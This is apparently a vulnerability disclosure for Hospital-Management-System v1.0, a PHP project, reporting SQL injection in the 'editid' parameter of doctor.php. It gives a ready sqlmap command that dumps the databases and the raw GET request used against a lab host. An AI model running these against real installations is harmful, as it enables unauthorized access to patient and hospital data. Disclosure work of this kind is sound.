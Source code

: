 **[Hospital-Management-System v1.0 - SQLi](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

![图片](https://user-images.githubusercontent.com/23294478/167287177-e0668d4e-0d93-42fe-ab75-99fadba4c7f9.png)


### Description:
---
The vulnerability page is ```doctor.php```

```http://your-ip/HMS/doctor.php```


Hospital-Management-System v1.0  

The ```editid``` parameter in the ```doctor.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:


python sqlmap.py -u "http://your-ip/hms/doctor.php?editid=1" --random-agent  --dbs



[+]GET request package

```
GET /hms/doctor.php?editid=1 HTTP/1.1
Host: 192.168.74.136
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cpbuir6uql3t0128e61bn2ihm1
Upgrade-Insecure-Requests: 1

```
### In action:
---

![图片](https://user-images.githubusercontent.com/23294478/167287194-2e52da93-30a6-4f7c-b8f5-a2b1048921e6.png)


### Proof and Exploit:
---

https://user-images.githubusercontent.com/23294478/167287234-9d07a890-c975-4077-b316-72d2dc40acd1.mp4

